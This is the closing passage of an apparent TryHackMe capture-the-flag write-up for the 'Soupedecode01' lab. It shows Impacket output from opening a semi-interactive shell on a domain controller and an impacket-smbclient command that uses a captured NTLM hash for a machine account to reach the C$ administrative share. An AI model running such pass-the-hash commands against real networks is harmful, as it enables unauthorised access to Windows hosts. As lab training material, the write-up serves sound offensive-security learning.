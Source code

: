 ```sh
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>[-] 
```

#### option ||| C$ share 

Alternatively, browse administrative shares via `SMB`  like `C$` then get the flag directly:

```sh
impacket-smbclient -hashes :e41da7e79a4c76dbd9cf79d1cb325559 'SOUPEDECODE.LOCAL/FileServer$@dc01.soupedecode.local'
```

![](/images/TryHackMe/Soupedecode01/root-smb.png)

---

<img src="/gifs/crazy.gif" alt="GIF" style="max-width:2400px; height:450px; border-radius:8px;">





<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>
